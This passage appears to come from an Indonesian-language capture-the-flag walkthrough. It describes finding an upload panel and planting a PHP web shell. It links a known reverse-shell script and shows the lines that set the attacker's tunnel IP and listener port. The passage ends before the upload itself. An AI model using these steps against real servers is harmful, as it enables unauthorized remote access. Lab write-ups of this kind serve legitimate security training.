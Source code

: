     ![alt text](docs/images/image-3.png)
  - **Explore the /panel Directory**
Direktori **/panel** mungkin adalah panel admin atau area untuk melakukan upload file

## exploit
- **Web Shell Upload**
Web shell upload adalah tindakan meng-upload file berbahaya (umumnya skrip PHP, ASP, atau lainnya) yang dapat dieksekusi di server untuk mendapatkan akses dan kontrol
  - **download the file** [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell)
  - **Check IP Tunnel**: Untuk mengetahui IP tunnel yang kamu miliki, misalnya **10.21.78.122**, kamu bisa menggunakan perintah **ip a** atau **ip addr show tun0** di server. IP ini adalah alamat dari interface yang kamu gunakan untuk tunneling. 
    ![alt text](docs/images/image-4.png)
  - **Edit File PHP**: Buka file php-reverse-shell.php yang telah diunduh di editor teks atau IDE favoritmu. \
  **Ubah IP dan Port**: Temukan bagian berikut dalam skrip tersebut:
    ```bash
    $ip = '10.21.78.122';  // IP Dari Interface yang kamu miliki (tun0)
    $port = 9001;       // Port yang ingin kamu Listen
    ```